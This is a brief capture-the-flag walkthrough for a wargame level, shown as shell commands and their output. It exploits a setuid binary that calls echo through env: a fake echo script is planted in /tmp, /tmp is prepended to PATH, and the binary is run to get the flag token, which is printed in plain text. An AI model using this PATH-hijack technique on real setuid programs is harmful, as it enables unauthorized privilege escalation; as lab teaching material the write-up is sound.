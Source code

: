 ## Check files inside home folder of user level03
ls -la

-> -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

## This file can be execute as flag03 user
./level03

-> Exploit me

## To exploit this file we check all strings inside this
strings level03

-> /usr/bin/env echo Exploit me

## Create in tmp folder a fake echo script and grant all permissions
echo '/bin/getflag' > echo
chmod 777 echo

## Add /tmp routh in variable env $PATH
export PATH=/tmp:$PATH

## Execute level03 script to get the password of level04
./level03

->Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

su level04 (password: qi0maab88jeaj46qoumi7maus)
